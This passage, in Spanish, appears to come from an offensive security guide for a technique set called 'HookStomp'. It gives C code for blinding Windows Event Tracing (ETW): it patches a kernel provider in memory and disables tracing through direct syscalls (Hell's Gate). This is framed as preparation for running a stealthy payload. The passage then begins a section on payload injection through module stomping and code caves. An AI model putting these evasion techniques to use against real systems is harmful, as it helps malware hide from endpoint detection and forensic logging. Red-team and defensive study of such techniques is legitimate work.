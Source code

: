 ```c
}
```

**Patching de Provider (Avanzado):**
```c
// Pseudocódigo para patch provider kernel
PVOID providerAddr = FindProviderByGUID(kernelGUID);  // Función custom
if (providerAddr) {
    DWORD oldProtect;
    VirtualProtect(providerAddr, sizeof(DWORD), PAGE_READWRITE, &oldProtect);
    *(PDWORD)providerAddr = 0;  // Disable logging
    VirtualProtect(providerAddr, sizeof(DWORD), oldProtect, &oldProtect);
}
```

**Ejemplo Completo de Bypass Efectivo:**
```c
void BypassETW() {
    // Paso 1: Disable global via NtTraceControl
    WORD ssn = GetSSN("NtTraceControl");
    ETW_TRACE_CONTROL control = { 0x1, NULL };
    HellsGate(ssn);
    HellDescent(&control, sizeof(control), NULL, 0, NULL);
    
    // Paso 2: Patch provider si necesario
    // ... código de patching
    
    // Paso 3: Ejecutar payload sigiloso
    // ... unhooking, injection
    
    // Paso 4: Re-enable (opcional)
    control.ControlCode = 0x2;  // Enable
    HellDescent(&control, sizeof(control), NULL, 0, NULL);
}
```

Explicación: Combina técnicas para robustez. En producción, añadir checks de versión Windows.

**Casos de Uso:**
- En red teaming: Bypass antes de inyección para evitar detección forense.
- Benchmarks: Bypass reduce logs en 90%; tiempo ~5ms.

(Detalles: Control codes de NtTraceControl varían; e.g., 0x10 para buffers. Riesgos: EDRs como Defender detectan via heurísticas.)

### Inyección de Payloads

La inyección de payloads es el componente final de HookStomp, donde se ejecuta el código malicioso de manera sigilosa. Técnicas como module stomping y code caves evitan la creación de nuevos procesos o hilos visibles, reduciendo la huella de detección. Estas se combinan con encriptación para evadir escaneos estáticos.

#### Module Stomping
